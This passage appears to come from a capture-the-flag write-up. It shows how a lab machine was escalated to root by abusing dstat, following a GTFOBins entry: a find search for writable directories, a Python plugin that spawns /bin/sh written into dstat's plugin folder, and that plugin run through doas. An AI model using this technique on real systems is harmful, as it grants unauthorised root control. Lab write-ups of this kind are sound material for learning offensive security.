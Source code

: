 I'll search for "dstat" at "https://gtfobins.github.io/":

Under "dsata" category I found the following:

![image](https://user-images.githubusercontent.com/114166939/236668296-4fe8f156-73fe-42a5-b972-343db2436184.png)

Let's find a directory in which I can write to files:
```bash
find / -type d -user player -perm /g+w 2>/dev/null | grep dstat*
```
Found nothing.

```bash
find / -type d -group player -perm /g+w 2>/dev/null | grep dstat*
```

Results:

![image](https://user-images.githubusercontent.com/114166939/236668559-fcb947c5-4f69-4ce7-94d2-99da197add16.png)

![image](https://user-images.githubusercontent.com/114166939/236668795-a04ed798-9a76-4eca-b1f6-b35258f23424.png)


This directory is the fourth at GTFOBins and we have read, write and execute permissions. Let's move on to the next step:

![image](https://user-images.githubusercontent.com/114166939/236668994-1950a715-b151-4438-b2de-642880d506f8.png)

I'll modify the commands:
(doas instead of sudo)

```bash
echo 'import os; os.execv("/bin/sh", ["sh"])' >/usr/local/share/dstat/dstat_xyz.py

doas -u root /usr/bin/dstat --xyz
```
Run these commands and you've got a root user!

![image](https://user-images.githubusercontent.com/114166939/236669359-df9ff7f7-919a-4b01-98e4-d80ac5c5c584.png)

Let's get the second and final flag, root.txt, located in root's home directory:

![image](https://user-images.githubusercontent.com/114166939/236669486-8243e87e-8188-4af7-97ac-967574b4eac2.png)
